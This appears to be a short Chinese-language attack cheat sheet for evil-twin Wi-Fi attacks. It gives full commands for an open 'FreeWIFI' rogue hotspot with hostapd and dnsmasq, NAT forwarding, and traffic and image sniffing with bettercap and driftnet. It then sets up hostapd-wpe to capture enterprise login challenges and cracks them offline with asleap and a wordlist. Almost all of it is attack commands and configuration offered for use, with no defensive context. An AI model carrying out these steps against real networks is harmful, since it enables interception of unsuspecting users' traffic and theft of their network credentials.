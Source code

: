   #### Hostapd
	>apt install hostapd dnsmasq
	>cd /etc/hostapd
	>vim open.conf 创建无加密热点
	Interface=wlan1
	Ssid=FreeWIFI
	Driver=nl80211
	Channel=1
	Hw_mode=g
	
	>vim /etc/dnsmasq.conf
	Dhcp-range=10.0.0.1, 10.0.0.255,12h
	Interface=wlan1
	
	>systemctl restart dnsmasq
	消除网卡限制
	>nmcli radio wifi off
	>rfkill unblock wlan
	>ifconfig wlan1 10.0.0.1/24
	>hostapd open.conf
	嗅探
	>sysctl –w net.ipv4.ip_forward=1
	>iptables –t nat –A POSTROUTING –o 网卡 –j MASQUERADE
	>bettercap –iface wlan1
	>net.show
	>net.sniff on
	>driftnet –i wlan1
  #### Hostapd-wpe
	>apt install hostapd-wpe
	>vim /etc/hostapd-wpe/hostapd-wpe.conf
	配置interface=wlan1
	Ssid=
	Channel=
	证书修改
	>cd /etc/hostapd-wpe/certs/
	文件ca.cnf server.cnf client.cnf
	修改countrName stateOrProvinceName localityName …….
	>rm –rf *.pem *.der *.csr *.crt *.key *.p12 serial* index.txt*
	>make clean
	>./bootstrap
	>make install
	执行创建热点
	>hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
	获取到密码时使用asleep破解
	>asleap –C Challenge值 –R response值 –W 字典文件